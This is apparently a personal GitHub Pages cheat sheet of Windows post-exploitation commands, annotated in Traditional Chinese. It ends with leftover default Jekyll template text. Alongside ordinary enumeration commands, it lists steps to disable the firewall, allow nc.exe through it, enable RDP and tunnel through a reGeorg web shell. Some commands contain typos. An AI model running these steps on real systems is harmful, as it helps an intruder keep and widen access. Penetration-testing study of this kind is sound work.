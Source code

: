 ## 後滲透筆記

systeminfo	系統資訊

systeminfo | findstr /B /C:"OS名稱" /C:"OS版本"	查看特定資訊

wmic os get caption	查看作業系統

whoami	當前使用者

whoami /priv	當前使用者權限

ipconfig /displaydns	DNS暫存

route print	路由表

arp -a	

hostname	

net user	

net user UserName	關於使用者資訊

net localgroup administrators	本機管理者帳號

net user /domain	網域使用者

wmic useraccount get /all 	網域使用者詳細資訊

net group "domain admins" /domain	網域管理者帳號

net use \SMBPATH Pa$$w0rd /u:UserName	連接SMB

net localgroup	列出所有Group

net localgroup GROUP	列出指定Group資訊

net view \127.0.0.1	會話打開到當前電腦

net session	開放給其他電腦

DRIVERQUERY	列出安裝的驅動

tasklist /svc	列出task and service

Tasklist /svc|find "TermService"	查看PID

netstat -ano|find "3389"

net start	列出啟動的服務

dir /s foo	目錄搜尋指定的關鍵字

dir /s foo == bar	同上

sc query	列出所有服務

sc qc "Service"	查服務

sc qc ServiceName	找到指定服務的路徑

shutdown /r /t 0	立即重啟

type file.txt	列出檔案內容

icacls “C:\Example”	列出權限

systeminfo	列出已安装的補丁

wmic qfe get Caption,Description,HotFixID,InstalledOn	列出已安装的補丁

wmic qfe get Description,HotFixID,InstalledOn

wmic qfe get Description,HotFixID,InstalledOn | findstr /C:"KB4346084" /C:"KB4509094"  列出指定補丁

wmic product get name,version	查看目前安裝程序

# 共享目錄
net share

wmic share get name,path,status

### 防火牆設定
netsh firewall show config	顯示防火牆配置

netsh firewall set opmode disable	關閉防火牆(2003及以前版本)

netsh advfirewall set allprofiles state off	關閉防火牆(2003之後版本)

netsh firewall add allowedprogram c:\nc.exe "allow nc" enable	允許程式通過 (2003及以前版本)

netsh advfirewall fireall add rule name="pass nc" dir=in action=allow program="c:\nc.exe"	允許程式通過 (2003之後版本)

netsh advfirewall firewall add rule name"Allow nc" dir=out action=alow program="C:\nc.exe"

netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3398 action=allow	允許3389通過

netsh advfirewall set currentprofile logging filename "C:\windows\temp\fw.log"	定義防火牆log存放位置

### 遠端服務
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber	查看遠端連結port(0xd3d)

開啟3389port#WinSer2003

wmic path win32_terminalservicesetting where (_CLASS !="") call setallowtsconnections 1	

開啟3389port#WinSer2008、2012

wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (_CLASS !="") call setallowtsconnections 1

wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName='RDP-Tcp') call setuserauthenticationrequired 1

reg add "HKLM\SYSTEM\CURRENT\CONTROLSET\CONTROL\TERMINAL SERVER" /v fSingleSessionPerUser /t REG_DWORD /d 0 /fSingleSessionPerUser

### reGeorg
[regeorg](https://github.com/sensepost/reGeorg)

python re.py -p 7788 -u http://xxxxxxxxxxx/222.jsp

proxychains rdesktop 127.0.0.1	//後續連接3389

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/cr810831cs07g/cr810831cs07g.GitHub.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://support.github.com/contact) and we’ll help you sort it out.
